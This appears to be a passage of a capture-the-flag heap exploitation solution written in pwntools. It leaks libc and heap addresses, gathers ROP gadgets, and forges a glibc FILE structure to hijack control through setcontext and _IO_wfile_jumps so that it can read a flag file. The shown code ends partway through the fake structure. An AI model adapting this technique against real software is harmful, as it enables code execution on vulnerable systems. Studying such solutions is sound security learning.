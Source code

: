 ```bash
    p.sendlineafter(":",str(idx))
    p.sendafter(":",content)



add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

h0 = p.recv(10).ljust(8,b"\x00")

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))

dbg()
pop_rdi =libc_base + 0x000000000002a3e5 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002be51 # pop rsi ; ret
pop_rdx_r12 = libc_base +0x000000000011f497 # pop rdx ; pop r12 ; ret
pop_rax = libc_base + 0x0000000000045eb0 # pop rax; ret; 
ret = libc_base + 0x0000000000029cd6# ret;
stderr=libc_base+libc.sym['stderr']
setcontext=libc_base+libc.sym['setcontext']
close=libc_base+libc.sym['close']
read=libc_base+libc.sym['read']
puts=libc_base+libc.sym['puts']
syscall_ret=libc_base + 0x0000000000091396 # syscall; ret; 
_IO_wfile_jumps = libc_base +0x2160c0
fake_io_addr = heap_base + 0xb00
rop_addr = heap_base + 0x2050
flag_addr = heap_base + 0x17d0
# _flags = 0 #_IO_read_ptr = 0x421

fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
```